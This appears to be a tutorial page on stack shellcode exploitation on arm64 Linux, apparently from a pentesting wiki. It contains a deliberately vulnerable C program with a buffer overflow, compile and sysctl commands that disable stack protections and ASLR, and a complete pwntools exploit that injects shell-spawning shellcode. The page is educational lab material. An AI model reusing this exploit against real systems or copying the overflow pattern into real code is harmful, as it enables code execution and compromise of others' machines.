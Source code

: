 # Stack Shellcode - arm64

Find an introduction to arm64 in:

[[../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md]]

## Linux

### Code

```c
#include <stdio.h>
#include <unistd.h>

void vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
    vulnerable_function();
    return 0;
}
```

Compile without pie, canary and nx:

```bash
clang -o bof bof.c -fno-stack-protector -Wno-format-security -no-pie -z execstack
```

### No ASLR & No canary - Stack Overflow

To stop ASLR execute:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To get the [**offset of the bof check this link**](../ret2win/ret2win-arm64.md#finding-the-offset).

Exploit:

```python
from pwn import *

# Load the binary
binary_name = './bof'
elf = context.binary = ELF(binary_name)

# Generate shellcode
shellcode = asm(shellcraft.sh())

# Start the process
p = process(binary_name)

# Offset to return address
offset = 72

# Address in the stack after the return address
ret_address = p64(0xfffffffff1a0)

# Craft the payload
payload = b'A' * offset + ret_address + shellcode

print("Payload length: "+ str(len(payload)))

# Send the payload
p.send(payload)

# Drop to an interactive session
p.interactive()
```

The only "complicated" thing to find here would be the address in the stack to call. In my case I generated the exploit with the address found using gdb, but then when exploiting it it didn't work (because the stack address changed a bit).

I opened the generated **`core` file** (`gdb ./bog ./core`) and checked the real address of the start of the shellcode.

## macOS

> [!TIP]
> It's not possible to disable NX in macOS because in arm64 this mode is implemented at hardware level so you can't disable it, so you won't be finding examples with shellcode in stack in macOS.

Check a macOS ret2win example in:

[[../ret2win/ret2win-arm64.md]]

